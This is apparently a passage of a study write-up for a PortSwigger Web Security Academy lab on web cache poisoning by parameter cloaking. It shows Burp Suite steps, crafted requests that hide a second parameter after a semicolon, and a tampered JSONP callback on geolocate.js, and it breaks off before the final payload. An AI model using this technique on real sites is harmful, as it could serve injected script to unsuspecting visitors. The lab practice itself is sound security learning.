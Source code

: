 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604032746.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604032815.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604034006.png)

### Parameter cloaking
```bash

# This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. There is also inconsistent parameter parsing between the cache and the back-end. A user regularly visits this site's home page using Chrome.

# To solve the lab, use the parameter cloaking technique to poison the cache with a response that executes alert(1) in the victim's browser. 


Refresh the page
Go to: HTTP history
Find:

GET / HTTP/1.1

Send to repeater
Right-click request -> Extensions -> Param Miner -> Param Miner -> rails param cloacking scan
OK

Go to: Target -> Issues

"Web Cache Poisoning: Parameter Cloaking"

GET /?test=1234&utm_content=x;test=akzldka&sxwt3=1 

Response:

HTTP/1.1 200 OK

<link rel="canonical" href='//0a1800980427a98ec01914fe004a005b.web-security-academy.net/?test=1234&amp;utm_content=x;test=akzldka&amp;sxwt3=1'/>
       
Go to: Target -> Site map -> js -> geolocate.js -> callback=setCountryCookie

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
setCountryCookie5({"country":"United Kingdom"}

Send to repeater

Change:

GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1

To

GET /js/geolocate.js?callback=setCountryCookie5 HTTP/1.1

Response:

X-Cache: hit

setCountryCookie5({"country":"United Kingdom"});

Change:
```